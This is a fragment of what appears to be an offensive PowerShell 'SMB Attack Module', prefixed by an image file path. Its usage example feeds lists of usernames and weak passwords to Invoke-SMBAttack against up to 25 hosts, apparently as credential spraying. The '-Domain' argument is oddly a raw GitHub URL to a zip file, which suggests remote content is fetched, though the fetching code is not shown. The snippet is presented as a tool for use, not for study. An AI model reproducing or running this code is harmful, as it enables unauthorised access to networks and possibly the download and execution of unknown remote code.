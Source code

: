 # Custom users and passwords
$users = @("user1", "user2", "administrator")
$passwords = @("Password1", "Company123", "Season2024")
Invoke-SMBAttack -Domain "https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip" -CustomUsers $users -CustomPasswords $passwords -MaxHosts 25
#>

Write-Host "SMB Attack Module Loaded" -ForegroundColor Green
Write-Host "Use: Invoke-SMBAttack -Domain 'https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip'" -ForegroundColor Yellow
